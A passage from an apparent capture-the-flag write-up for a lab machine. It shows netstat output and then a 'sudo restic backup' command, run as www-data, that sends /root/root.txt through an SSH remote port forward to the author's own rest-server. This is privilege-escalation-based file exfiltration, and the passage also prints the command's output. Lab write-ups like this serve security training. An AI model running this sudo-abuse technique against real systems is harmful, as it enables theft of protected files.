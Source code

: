 ```
bolt@bolt:~$ netstat -antpl
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:61234         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.10.159:4444       10.10.14.49:34810       ESTABLISHED -                   
tcp        0      0 10.10.10.159:22         10.10.14.36:49646       ESTABLISHED -                   
tcp        0    324 10.10.10.159:22         10.10.14.49:48010       ESTABLISHED -                   
tcp        0      0 10.10.10.159:22         10.10.14.49:48784       ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:61234               :::*                    LISTEN      -                   
```

Below is exactly what we were looking for:

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:61234         0.0.0.0:*               LISTEN      -                   
```


As TCP 61234 is now being used by registry.htb and rest-server is running on TCP 8000 on my localhost, let's try and run restic from registry.htb.

We need to run the restic command as www-data using *http://127.0.0.1:61234/* and try to exfiltrate the *root.txt* file using the port opened previously through SSH Remote Port Forwarding (used in the Restic Server URL).

```
www-data@bolt:~/html/bolt/theme$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:61234/ /root/root.txt
<ckup -r rest:http://127.0.0.1:61234/ /root/root.txt
enter password for repository: <rest_repo_passwd>

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 3a378c88 saved
www-data@bolt:~/html/bolt/theme$ 
```